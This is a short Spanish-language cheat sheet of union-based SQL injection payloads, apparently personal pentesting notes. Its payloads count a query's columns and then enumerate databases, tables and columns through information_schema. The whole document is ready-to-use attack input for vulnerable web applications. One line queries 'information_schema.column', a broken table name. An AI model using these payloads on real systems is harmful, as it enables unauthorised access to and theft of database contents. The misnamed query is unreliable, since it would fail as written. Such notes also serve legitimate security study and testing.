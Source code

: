 # SQL Injection

Ver numero de columnas

```
' ORDER BY 1 -- -
```

Introducir informacion una vez sabemos el numero de columnas que hay

```
' union select 1,2-- -
' union select schema_name from information_schema.schemata limit 0,1 -- - 
  //listar todas las bases de datos existentes {con limit van mostrando las bases de datos 0,1 1º 1,1 2º y asi sucesivamente}
' union select group_concat(schema_name) from information_schema.schemata -- - 
  // listar todas las bases de datos en una linea
' union select group_concat(table_name) from information_schema.tables where table_schema='table'-- - 
// ver tablas de la base de datos
' union select group_concat(column_name) from information_schema.column where table_schema='table' and table_name='table' limit 0,1-- -
// ver columnas de la tabla
```
